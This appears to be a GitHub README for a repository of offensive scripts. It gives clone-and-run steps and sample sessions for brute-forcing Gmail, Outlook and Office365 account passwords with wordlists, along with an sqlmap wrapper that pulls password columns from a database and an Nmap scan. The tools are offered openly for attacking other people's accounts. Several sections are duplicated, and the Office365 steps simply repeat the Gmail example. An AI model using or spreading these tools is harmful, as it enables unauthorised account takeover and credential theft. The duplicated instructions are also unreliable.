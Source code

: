 # brute_force & more

We will offer you some scripts such as guessing the passwords for some social networking sites like gmail, outlook, mail.com and more and with the reconciliation was with you yazeed bilal

My Personal Account on Facebook:https://web.facebook.com/yazeed.yazeed.351/

My Personal Account on Instagram:https://www.instagram.com/yazeed.yazeed.351/

=====================================================================================================

# Steps:
1.git clone https://github.com/yazeed33/brute_force-more/

2.chmod +x *
.
.
.
# Steps to use the Sqlmap script:

1.Enter Url: http://www.example.com/php?id=1

2.Enter DATABASES Name: db64re2344

3.Enter TABLE Name: users


4.Enter Column Name: pass,users


5.finish

# Steps To Use GMAIL Brute Force script:

# Example:

1.python GMAIL_BRUTE_FORCE.py

2.   [1] start attack
     [2] exit
   root@kali:~/brute_force-more# 1
   
   path of wordlist file: /usr/share/wordlists/fasttrack.txt
   Enter Target Email: example.gmail.com

[!] PASS INCORRECT ======> example

[!] PASS INCORRECT ======> example

[!] PASS INCORRECT ======> example

[!] PASS FOUND =======> yazeed1232

# Steps To Use OUTLOOK Brute Force script:

# Example:

1.Enter Email Target: example.outlook.com

2.Enter Wordlist File: /root/Desktop/example.txt

[!] PASS INCORRECT ======> example

[!] PASS INCORRECT ======> example

[!] PASS INCORRECT ======> example

[!] PASS FOUND =======> yazeed1232

# How to Use Nmap Script:

Enter Url or IP: www.example.com

# Steps To Use Office365 Brute Force script:

# Example:

1.python GMAIL_BRUTE_FORCE.py

2.   [1] start attack
     [2] exit
   root@kali:~/brute_force-more# 1
   
   path of wordlist file: /usr/share/wordlists/fasttrack.txt
   Enter Target Email: example.gmail.com

[!] PASS INCORRECT ======> example

[!] PASS INCORRECT ======> example

[!] PASS INCORRECT ======> example

[!] PASS FOUND =======> yazeed1232

# Steps To Use OUTLOOK Brute Force script:

# Example:

1.Enter Email Target: example.outlook.com

2.Enter Wordlist File: /root/Desktop/example.txt

[!] PASS INCORRECT ======> example

[!] PASS INCORRECT ======> example

[!] PASS INCORRECT ======> example

[!] PASS FOUND =======> yazeed1232

# How to Use Nmap Script:

Enter Url or IP: www.example.com

